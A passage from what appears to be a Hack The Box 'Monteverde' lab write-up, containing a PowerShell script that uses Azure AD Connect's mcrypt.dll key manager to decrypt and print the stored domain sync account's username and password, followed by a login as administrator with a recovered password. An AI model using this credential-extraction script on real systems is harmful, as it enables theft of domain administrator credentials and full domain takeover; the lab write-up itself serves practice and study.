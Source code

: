 ```powershell
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

![Untitled](/img/htb-monteverde/Untitled%204.png)

I logged with the credentials we got `administrator : d0m@in4dminyeah!`

![Untitled](/img/htb-monteverde/Untitled%205.png)

We own the System